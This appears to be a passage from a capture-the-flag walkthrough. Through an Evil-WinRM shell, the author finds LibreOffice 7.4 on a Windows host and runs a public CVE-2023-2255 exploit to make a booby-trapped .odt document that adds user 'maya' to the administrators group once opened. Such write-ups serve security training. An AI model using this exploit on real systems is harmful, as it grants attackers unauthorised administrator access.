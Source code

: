 ```powershell
```
Enumerate the installed software.
```powershell
> cd "c:\program files"

*Evil-WinRM* PS C:\program files> dir

    Directory: C:\program files

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         2/27/2024   5:30 PM                Common Files
d-----          3/3/2024   4:40 PM                dotnet
d-----          3/3/2024   4:32 PM                Git
d-----         4/29/2024   6:54 PM                Internet Explorer
d-----          3/4/2024   6:57 PM                LibreOffice
d-----          3/3/2024   4:06 PM                Microsoft Update Health Tools
d-----         12/7/2019  10:14 AM                ModifiableWindowsApps
d-----         2/27/2024   4:58 PM                MSBuild
d-----         2/27/2024   5:30 PM                OpenSSL-Win64
d-----         3/13/2024   4:49 PM                PackageManagement
d-----         2/27/2024   4:58 PM                Reference Assemblies
d-----         3/13/2024   4:48 PM                RUXIM
d-----         2/27/2024   4:32 PM                VMware
d-----          3/3/2024   5:13 PM                Windows Defender
d-----         4/29/2024   6:54 PM                Windows Defender Advanced Threat Protection
d-----          3/3/2024   5:13 PM                Windows Mail
d-----          3/3/2024   5:13 PM                Windows Media Player
d-----         4/29/2024   6:54 PM                Windows Multimedia Platform
d-----         2/27/2024   4:26 PM                Windows NT
d-----          3/3/2024   5:13 PM                Windows Photo Viewer
d-----         4/29/2024   6:54 PM                Windows Portable Devices
d-----         12/7/2019  10:31 AM                Windows Security
d-----         3/13/2024   4:49 PM                WindowsPowerShell
```
Enumerate the installed LibreOffice version.
```powershell
> type readme_en-us.txt

======================================================================

LibreOffice 7.4 ReadMe

======================================================================
```
There is a CVE affecting this LibreOffice version (https://www.cvedetails.com/cve/CVE-2023-2255/), and an exploit in GitHub (https://github.com/elweth-sec/CVE-2023-2255).<br>

Clone the repository and create a malicious `.odt` file containing a payload to make user `maya` administrator.
```powershell
> python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'important.odt' 
File important.odt has been created !
```
Transfer the file `important.odt` to folder `c:\important documents` and wait till someone opens it. When that happens, then user `mailing\maya` is added into administrators group.
```powershell
> dir

    Directory: C:\important documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/6/2024   5:57 PM          30526 important.odt
```